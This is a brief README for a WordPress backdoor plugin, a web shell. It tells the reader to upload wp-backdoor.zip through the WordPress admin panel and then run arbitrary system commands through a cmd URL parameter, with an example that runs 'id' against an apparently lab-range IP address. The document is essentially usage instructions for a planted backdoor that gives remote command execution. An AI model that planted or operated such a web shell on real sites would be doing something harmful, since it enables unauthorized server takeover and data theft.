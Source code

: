 Wordpress Backdoor script

Install the wp-backdoor.zip on the wp admin site.

URL: http://wp/wp-content/plugins/wp-backdoor/wp-backdoor.php?cmd=COMMAND

e.g.: http://10.11.1.251/wp/wp-content/plugins/wp-backdoor/wp-backdoor.php?cmd=id

#tis #havefun #sander
